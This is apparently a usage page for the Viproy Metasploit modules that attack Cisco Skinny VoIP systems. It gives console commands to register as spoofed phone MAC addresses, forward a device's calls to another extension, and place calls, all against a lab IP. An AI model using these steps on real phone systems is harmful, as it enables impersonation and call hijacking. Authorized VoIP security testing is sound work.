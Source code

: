 #Skinny Modules Usage

##Skinny Registration

use auxiliary/voip/viproy_skinny_register <br>
set RHOST 192.168.0.205<br>
set MAC 000C29BF1895<br>
show options<br>
run<br>

set MAC 000C29E58CA3<br>
run<br>

http://www.viproy.com/captures/skinny_register.pcapng<br>

##Skinny Call Forward

use auxiliary/voip/viproy_skinny_callforward <br>
set RHOST 192.168.0.205<br>
set FORWARDTO 1013<br>
set MAC 000C29E58CA3<br>
set ACTION FORWARD<br>
show options <br>
run<br>

http://www.viproy.com/captures/skinny_callforward.pcapng<br>

##Skinny Call

use auxiliary/voip/viproy_skinny_call<br>
set MAC 000C29E58CA3<br>
set TARGET 1013<br>
show options <br>
set RHOST 192.168.0.205<br>
run<br>

http://www.viproy.com/captures/skinny_call.pcapng<br>
